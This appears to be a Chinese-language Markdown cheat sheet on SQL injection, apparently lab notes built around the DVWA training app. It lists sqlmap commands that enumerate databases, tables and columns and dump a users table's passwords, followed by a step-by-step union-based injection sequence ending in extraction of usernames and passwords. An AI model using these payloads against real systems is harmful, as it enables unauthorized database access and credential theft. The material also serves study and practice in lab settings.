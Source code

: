 <!-- 
title: 04-Sql注入
sort: 
--> 

## Sqlmap

> 查询数据库
>
> `sqlmap -r xxx -p pwd --dbs`
>
> 使用url
>
> `sqlmap -u http://xxx -p pwd --dbs`
>
> 指定数据库下的数据表
>
> `sqlmap -r xxx -p id -D dvwa --tables`
>
> 表中的全部列
>
> `sqlmap -r xxx -p id -D dvwa -T users --columns`
>
> 表中的具体字段
>
> `sqlmap -r xxx -p id -D dvwa -T users -C user_id,avatar,password --dump`

## 联合查询

1. 判断列数

   `1' order by 3 --+ `

2. 判断值对应的列数

   `0' union select 1,2,3 --+ `

3. 查询用户及数据库信息

   ` 0' union select 1,user(),database() --+`

4. 查询表名

   `0' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database() --+`

5. 查询列名

   `0' union select 1,group_concat(column_name),3 from information_schema.columns where table_name='users' --+`

6. 查询信息

   `0' union select 1,group_concat(username,0x3a,password),3 from users --+`

